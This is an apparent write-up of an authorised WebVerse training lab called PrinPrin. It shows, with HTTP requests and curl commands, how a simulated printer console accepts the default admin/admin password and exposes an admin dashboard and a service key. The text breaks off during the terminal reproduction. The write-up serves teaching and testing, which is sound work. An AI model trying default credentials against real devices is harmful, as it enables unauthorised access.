> **Publication note:** This article documents an authorised WebVerse educational lab reproduced on 21 August 2026. Caido and Terminal used separate fresh instances. Requests use `<LAB_HOST>`, session values use `<REDACTED>`, and the challenge proof is shown as `WEBVERSE{REDACTED}`. Temporary lab hostnames remain visible in the screenshots because they provide request context and are not reusable secrets.

## Executive Summary

PrinPrin presents a public login page for a simulated network printer. The page identifies the device model and exposes a normal `POST /login.php` form with `username` and `password` fields.

I first sent `admin/access` as a negative control. The server returned `200 OK`, kept me on the login page, and displayed `Access denied`. I then changed only the password to `admin`. That request returned `302 Found` with `Location: /dashboard.php`.

The existing `pp_sid` session then opened `/dashboard.php` as `admin`. The page showed device status, supply levels, recent job metadata, and a Remote service key marked as sensitive by the application. I reproduced the same sequence with `curl` on a second fresh instance and confirmed the WebVerse solved state in the browser.

> **CONFIRMED FINDING**
>
> The public PrinPrin console accepts the default `admin/admin` password and grants access to the authenticated printer administration dashboard.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | PrinPrin |
| Difficulty | Easy |
| Reproduction date | 21 August 2026 |
| Entry point | `GET /login.php` |
| Login request | `POST /login.php` |
| Negative control | `admin/access` |
| Accepted default | `admin/admin` |
| Authenticated route | `GET /dashboard.php` |
| Primary weakness | [CWE-1393](/cwes/cwe-1393/): Use of Default Password |
| Confirmed result | Printer administrator access and Remote service key disclosure |
| Evidence | Browser, Caido, `curl`, and WebVerse solved-state UI |
| Caido reproduction | Passed |
| Terminal reproduction | Passed on a separate fresh instance |

### Verified Attack Chain

```text
Public /login.php
  > printer login form with username and password fields
admin/access
  > 200 OK and Access denied
admin/admin
  > 302 Found and Location: /dashboard.php
Existing pp_sid session
  > authenticated GET /dashboard.php
Dashboard
  > admin context, device data, recent jobs, Remote service key
WebVerse
  > CHALLENGE SOLVED
Stop
```

## 2. Scope and Evidence Limits

I stayed inside the authorised PrinPrin lab and stopped after the objective was confirmed.

- PrinPrin is a WebVerse training simulation. This article does not report a vulnerability in a real printer model or vendor product.
- The Caido and Terminal screenshots come from two different fresh instances. Their temporary hostnames are expected to differ.
- The successful Caido `302` response did not include a new `Set-Cookie` header. I therefore do not claim that the login issued a new session. The request already carried `pp_sid`, and the same session reached the dashboard after authentication.
- Session values and both literal flags are removed from the public images.
- I did not change printer settings, trigger a print job, test other accounts, use the Remote service key, or contact any service with it.
- The dashboard showed settings and networking tabs, but their contents were not tested. Their presence is not proof that every listed action was available.
- The evidence confirms the shown administrative view, device details, recent job metadata, and Remote service key. It does not prove access to unrelated systems or any impact beyond the lab console.

## 3. Evidence-Led Chronological Reproduction

Both clients follow the same short sequence:

1. Open `/login.php` and record the login form.
2. Send `admin/access` and record the rejected response.
3. Change only the password to `admin`.
4. Record the `302` redirect to `/dashboard.php`.
5. Reuse the session and request `/dashboard.php`.
6. Confirm the `admin` context and Remote service key.
7. Confirm the solved state and stop.

The response difference is the important part. `200 OK` alone is not a successful login here. The negative request returns the login page with an error, while the accepted default password returns a redirect to the authenticated dashboard.

## 4. Caido/Burp Reproduction

### Step 1: Record the Login Surface

I opened the fresh PrinPrin instance in the Caido browser. The page identified an embedded printer web server and presented a normal administrator sign-in form.



**Figure 1: Browser baseline.** The fresh instance exposes the administrator login page before any credential is tested.

Caido recorded the matching request:

```http
GET /login.php HTTP/1.1
Host: <LAB_HOST>
```

Equivalent command:

```bash
curl -i -sS 'https://<LAB_HOST>/login.php'
```



**Figure 2: Login request.** The initial request reaches only the public `/login.php` route.

The response returned the login document and set an anonymous `pp_sid` session value. The public copy keeps the cookie attributes but removes the value.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Set-Cookie: pp_sid=<REDACTED>; path=/; HttpOnly; SameSite=Lax
Cache-Control: no-store, no-cache, must-revalidate
```

The HTML confirms the request contract:

```html
<form method="post" class="pp-login__form">
  <input type="text" name="username">
  <input type="password" name="password">
  <button type="submit">Sign In</button>
</form>
```



**Figure 3: Login response.** The response contains the printer fingerprint, the POST form, and a redacted anonymous session value.



**Figure 4: Full response context.** The continuation closes the same login document. It is retained so the supplied baseline response is not represented by a partial crop alone.

At this point I had the login route and the two form fields. I had not yet proved that any default password worked.

### Step 2: Record a Rejected Login

I used `admin/access` as the negative control.

```http
POST /login.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded
Cookie: pp_sid=<REDACTED>

username=admin&password=access
```

Equivalent command:

```bash
curl -i -sS \
  -c prinprin.cookies \
  -X POST 'https://<LAB_HOST>/login.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'username=admin&password=access'
```



**Figure 5: Browser rejection.** PrinPrin stays on the login page and displays `Access denied`.



**Figure 6: Negative request.** The request body contains `admin/access`; only the session value is removed.

The response was still `200 OK`, but the body contained the rejection message:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
```

```text
Access denied. Check the user name and password and try again.
```



**Figure 7: Negative response.** The server returns the login form again with an explicit authentication error. This is the failed-login baseline.

### Step 3: Change Only the Password

I sent the previous request to Replay and changed only `password=access` to `password=admin`.

```http
POST /login.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded
Cookie: pp_sid=<REDACTED>

username=admin&password=admin
```

Equivalent command:

```bash
curl -i -sS \
  -b prinprin.cookies \
  -c prinprin.cookies \
  -X POST 'https://<LAB_HOST>/login.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'username=admin&password=admin'
```



**Figure 8: Default password request.** The username, route, method, and body structure match the negative control. Only the password changed.

The response changed to a redirect:

```http
HTTP/1.1 302 Found
Location: /dashboard.php
Content-Length: 0
```



**Figure 9: Authentication transition.** `admin/admin` reaches `/dashboard.php`, while `admin/access` returned the login page with `Access denied`.

The screenshot does not show a new `Set-Cookie` header in this response. The proof is the controlled response change and the next authenticated request, not a claim that the server rotated the session.

### Step 4: Follow the Session to the Dashboard

I followed the redirect with the existing session.

```http
GET /dashboard.php HTTP/1.1
Host: <LAB_HOST>
Cookie: pp_sid=<REDACTED>
```

Equivalent command:

```bash
curl -i -sS \
  -b prinprin.cookies \
  'https://<LAB_HOST>/dashboard.php'
```



**Figure 10: Authenticated request.** The redacted session reaches `/dashboard.php` after the accepted default password.

The server returned the dashboard as `admin`:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
```

```html
<span class="pp-user">admin</span>
```



**Figure 11: Admin context.** The response identifies the authenticated user as `admin` and exposes the printer dashboard navigation.

Further down, the page included the Remote service key and described it as a password-like credential:

```html
<label class="pp-fld">Remote service key
  <input class="pp-mono" type="text"
         value="WEBVERSE{REDACTED}" readonly>
</label>
<p>Authorizes manufacturer remote diagnostics for this device. Treat it like a password.</p>
```



**Figure 12: Remote service key.** The literal value is redacted, but the label, readonly field, admin response context, and the application's warning remain visible.

The same response continued with recent job metadata, including job IDs, users, document names, page counts, states, and times.



**Figure 13: Dashboard continuation.** The authenticated response contains recent job metadata in addition to device and supply status.

### Step 5: Confirm the Lab Result

I submitted the current-instance flag in the WebVerse interface and stopped.


**Figure 14: Platform confirmation.** WebVerse accepted the flag and marked PrinPrin as solved.

## 5. Terminal/CLI Reproduction

The terminal run used a second fresh instance. It did not reuse the Caido hostname, cookie, or flag.

Set the active host once:

```bash
LAB_HOST='<LAB_HOST>'
```

### Step 1: Read the Login Page

```bash
curl -i -sS "https://${LAB_HOST}/login.php"
```

Expected result:

```text
HTTP/2 200
content-type: text/html; charset=UTF-8
username
password
```



**Figure 15: Terminal baseline.** The second instance returns the same login form and printer fingerprint. The initial session value is redacted.

### Step 2: Save the Session and Send the Negative Control

```bash
curl -i -sS \
  -c prinprin.cookies \
  -X POST "https://${LAB_HOST}/login.php" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'username=admin&password=access'
```

Observed result:

```text
HTTP/2 200
